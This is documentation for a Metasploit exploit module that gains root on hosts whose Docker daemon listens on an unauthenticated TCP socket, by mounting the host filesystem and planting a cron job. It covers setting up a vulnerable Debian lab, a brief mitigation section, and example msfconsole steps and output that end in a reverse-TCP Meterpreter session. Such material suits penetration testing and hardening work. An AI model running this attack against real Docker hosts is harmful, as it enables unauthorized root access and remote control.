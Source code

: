 # Vulnerable Application
Utilizing Docker via unprotected tcp socket (2375/tcp, maybe 2376/tcp
with tls but without tls-auth), an attacker can create a Docker
container with the '/' path mounted with read/write permissions on the
host server that is running the Docker container. As the Docker 
container executes command as uid 0 it is honored by the host operating
system allowing the attacker to edit/create files owned by root. This
exploit abuses this to creates a cron job in the '/etc/cron.d/' path of
the host server.

The Docker image should exist on the target system or be a valid image
from hub.docker.com.

## Docker Engine
By default, Docker runs via a non-networked unix socket. It can also
optionally communicate using a tcp socket.

> Warning: Changing the default docker daemon binding to a TCP port or
Unix docker user group will increase your security risks by allowing
non-root users to gain root access on the host. Make sure you control
access to docker. If you are binding to a TCP port, anyone with access
to that port has full Docker access; so it is not advisable on an open
network. -- [from docs.docker.com][1]

This module was tested with Debian 9 and CentOS 7 as the host operating
system and with Docker CE 17.06.0-ce and Docker Engine 1.13.1.

### Install Debian 9
First [install Debian 9][2] with default task selection. This includes
the "*standard system utilities*".

### Install Docker
Then install a supported version of [Docker on Debian system][3].

```bash
# TL;DR
apt-get remove docker docker-engine
apt-get install apt-transport-https ca-certificates curl gnupg2 software-properties-common
curl -fsSL https://download.docker.com/linux/debian/gpg | apt-key add -
apt-key fingerprint 0EBFCD88
# Verify that the key ID is 9DC8 5822 9FC7 DD38 854A E2D8 8D81 803C 0EBF CD88.
add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/debian $(lsb_release -cs) stable"
apt-get update
apt-get install docker-ce
docker run hello-world
```

### Activate unprotected tcp socket
Once Docker is installed, customize the Docker daemon options and add
the tcp socket `-H tcp://0.0.0.0:2375` option. On Debian override the
settings from `/lib/systemd/system/docker.service` with a new file
`/etc/systemd/system/docker.service`.

Further information: [docker systemd][4] and [docker daemon options][5]. 

```bash
# TL;DR
echo "[Service]
ExecStart=/usr/bin/dockerd -H fd:// -H tcp://0.0.0.0:2375" | tee /etc/systemd/system/docker.service
systemctl daemon-reload
systemctl restart docker
curl http://127.0.0.1:2375/_ping ; echo
OK
```

### Mitigation

[Disable][5] or [protect][6] the Docker tcp socket.

# Exploitation
This module is designed for the attacker to leverage, creation of a
Docker container with out authentication through the Docker tcp socket
to gain root access to the hosting server of the Docker container.

## Options
- DOCKERIMAGE is the locally or from hub.docker.com available image you are wanting to have Docker to deploy for this exploit.
- CONTAINER_ID is optional if you want to have your container Docker have a human readable name else it will be randomly generated it will be randomly generated

## Steps to exploit with module
- [ ] Start msfconsole
- [ ] use exploit/linux/http/docker_daemon_tcp
- [ ] Set the options appropriately and set VERBOSE to true
- [ ] Verify it creates a Docker container and it successfully runs
- [ ] After a minute a session should be opened from the Docker server

## Example Output
```
msf > use exploit/linux/http/docker_daemon_tcp
msf exploit(docker_daemon_tcp) > set RHOST 192.168.66.23
RHOST => 192.168.66.23
msf exploit(docker_daemon_tcp) > set PAYLOAD python/meterpreter/reverse_tcp
PAYLOAD => python/meterpreter/reverse_tcp
msf exploit(docker_daemon_tcp) > set LHOST 192.168.66.10
LHOST => 192.168.66.10
msf exploit(docker_daemon_tcp) > set VERBOSE true
VERBOSE => true
msf exploit(docker_daemon_tcp) > check
[+] 192.168.66.23:2375 The target is vulnerable.
msf exploit(docker_daemon_tcp) > run

[*] Started reverse TCP handler on 192.168.66.10:4444
[*] Check if images exist on the target host
[*] Image is not available on the target host
[*] Trying to pulling image from docker registry, this may take a while
[*] Setting container json request variables
[*] Creating the docker container command
[*] The docker container is created, waiting for deploy
[*] Waiting for the cron job to run, can take up to 60 seconds
[*] Waiting until the docker container stopped
[*] The docker container has been stopped, now trying to remove it
[*] Sending stage (40411 bytes) to 192.168.66.23
[*] Meterpreter session 1 opened (192.168.66.10:4444 -> 192.168.66.23:35050) at 2017-07-25 14:03:02 +0200
[+] Deleted /etc/cron.d/lVoepNpy
[+] Deleted /tmp/poasDIuZ


meterpreter > sysinfo
Computer        : debian
OS              : Linux 4.9.0-3-amd64 #1 SMP Debian 4.9.30-2+deb9u2 (2017-06-26)
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter >
```

[1]:https://docs.docker.com/engine/reference/commandline/dockerd/#bind-docker-to-another-hostport-or-a-unix-socket
[2]:https://www.debian.org/releases/stretch/amd64/index.html.en
[3]:https://docs.docker.com/engine/installation/linux/docker-ce/debian/
[4]:https://docs.docker.com/engine/admin/systemd/
[5]:https://docs.docker.com/engine/reference/commandline/dockerd/#options
[6]:https://docs.docker.com/engine/security/https/
